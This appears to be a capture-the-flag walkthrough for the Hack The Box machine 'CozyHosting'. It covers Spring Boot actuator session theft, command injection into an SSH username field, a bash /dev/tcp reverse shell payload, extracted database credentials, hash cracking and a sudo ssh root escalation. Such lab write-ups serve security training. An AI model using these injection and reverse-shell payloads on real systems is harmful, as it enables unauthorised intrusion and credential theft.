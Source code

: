 # CozyHosting

CozyHosting is a easy machine on HTB

## Enumeration

First we check the open port via **nmap**.

![nmap](./assets/images/nmap.png)


The ports 22, 80 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.230   cozyhosting.htb" | sudo tee -a /etc/hosts
```

![website](./assets/images/website.png)

It's a classic website. Let's do some directory search.

![gobuster](./assets/images/gobuster.png)

We can access the `login` and `index` page, the `asdfjkl;` is empty so nothing here. `error` may be interesting but let's check login first.

![login](./assets/images/login.png)

Trying some basic username/password didn't work. Let's move to the `error` page.

![error](./assets/images/error.png)

After researching the error message on internet, we found that it come from **Spring Boot**. So let's redo a dirsearch but with a Spring Boot wordlist.

![gobuster_springboot](./assets/images/gobuster_springboot.png)

And if we go to `actuator/sessions` we found this :

![sessions](./assets/images/sessions.png)

## Foothold

Some cookies for a user named **kanderson**. So we can copy them and replace our cookies by the one we found.

![console_storage](./assets/images/console_storage.png)

Now we can access the admin dashboard!

![admin_dashboard](./assets/images/admin_dashboard.png)

We can try to add a hostname into the automatic patching. If we try with value like `127.0.0.1` and `test` it return an error.


![admin_error](./assets/images/admin_error.png)

In the note we can read that it tried to connect via the private key with ssh. So maybe we can do some comand injection.
Open **Burpsuite** and intercept the request.

![burpsuite_intercept](./assets/images/burpsuite_intercept.png)

Setup a **netcat** listener to receive our request

```bash
nc -lvnp 80
```

And change the `username` variable in burp to be equal to `blabla;curl+http://{Your IP}:80;`
We have an error that said the username can't contain whitespace. So we will replace the value '+' (which is a space but URL encoded) to `${IFS}`.
It's a shell variable who by default is equal to a space. So the complete command is `blabla;curl${IFS}http://{Your IP}:80;`

And we receive the request in our netcat listener. So now we can do a command to spawn a reverse shell. Setup a new netcat listener to a different port and change the username variable to `test;bash${IFS}-c${IFS}'exec${IFS}bash${IFS}-i${IFS}%26>/dev/tcp/{Your IP}/{Your Port}${IFS}<%261';`

![revshell](./assets/images/revshell.png)

## User flag

Stabilize it with :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```

We are the user **app** and we must move up to the user josh. In the directory there is the file `cloudhosting-0.0.1.jar` let's unzip it

```bash
unzip -d /tmp/app cloudhosting-0.0.1.jar
```

After wandering through the files there is some creds in `BOOT-INF/classes/application.properties`

![postgre_creds](./assets/images/postgre_creds.png)

`postgres:Vg&nvzAQ7XxR` So now connect to the postgres database, `psql -h 127.0.0.1 -U postgres` and enter the password.
We can find a cozyhostig database, connect to it with `\connect cozyhosting`. And in the database we have a table named users. Print all it's content with `select * from users;`.

![hashes](./assets/images/hashes.png)

We have two hashes. We can use **hashcat** to crack them. Past the hashes in a file and use the command `hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt`. Try to crack the admin password first. After some time hashcat as found the admin password wich is equal to `manchesterunited`

With this password lets try to login as **josh**

![user_flag](./assets/images/user_flag.png)

## Privilege escalation

Execute `sudo -l` to see if josh can execute some commands as root.

![sudo_l](./assets/images/sudo_l.png)

We can execute ssh with any arguments. If we check on [gtfobins](https://gtfobins.github.io/gtfobins/ssh/) with the command `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x` we can spawn a shell as root.

![root](./assets/images/root.png)